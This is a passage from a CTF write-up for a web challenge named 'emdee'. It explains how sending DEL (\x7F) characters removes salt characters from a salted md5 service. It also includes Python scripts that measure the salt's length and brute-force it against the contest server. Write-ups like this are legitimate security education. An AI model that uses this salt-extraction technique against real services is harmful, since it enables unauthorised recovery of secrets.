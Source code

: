 response was :

```lang-bash line-numbers 
HTTP/1.1 200 OK
Server: nginx/1.1.19
Date: Sun, 09 Feb 2014 17:15:32 GMT
Content-Type: text/html; charset=utf-8
Last-Modified: Thu, 06 Feb 2014 13:55:07 GMT
Connection: keep-alive
Content-Length: 38

CTF{6e75d02b8e8329bb4b45c7dabd2e1da2}
```

## CURLing 300: emdee

This level got us crazy for a long time, in the end it was an easy task to solve. We were presented with a revolutionary md5 hashing system :)

![](/images/octopress/olympic-web300-1.png)

Submitting a new secret got us the hash and the timestamp used for the hashing:

![](/images/octopress/olympic-web300-2.png)

After playing with other approaches, including sending long secrets so that the timestamp was cut off, we found out that we could hash non printable characters and some of them were really interesting, specially the "del" one or **\x7F**

We can send del commands to delete previous introduced characters so hash(aa\xF7) == hash(a) for the same timestamp. We can used that to remove all the Salt characters except for the first one and then use the returned timestamp and hash to brute force the first character in the salt. And then repeat to extract the full salt.

To find out the length of the salt we can use the following script:

```lang-python line-numbers 
for j in xrange(1,64):
    secret = '\x7F' * j
    res = requests.post(URL, data={'secret':secret})
    ts, h = parse(res.content)
    if hashlib.md5(ts).hexdigest() == h:
        SALTLEN = j
        break
```

We basically send n delete characters and check if the returned hash is the result of hashing the returned timestamp. This gives us a lenght of 40 chracters. Now we can brute force the salt with the following script:

```lang-python line-numbers 
import requests
import re
import hashlib

def parse(content):
    m = re.search(r'your_secret \+ ([0-9.]+).*<em>([0-9a-f]+)', content)
    if not m:
        raise
    return m.group(1), m.group(2)

def bruteforce(prefix, h, ts):
    for c in map(chr, range(32,126)):
        if hashlib.md5(prefix+c+ts).hexdigest() == h:
            return c
    return None
URL = 'http://109.233.61.11:34380/'
SALTLEN = 0
```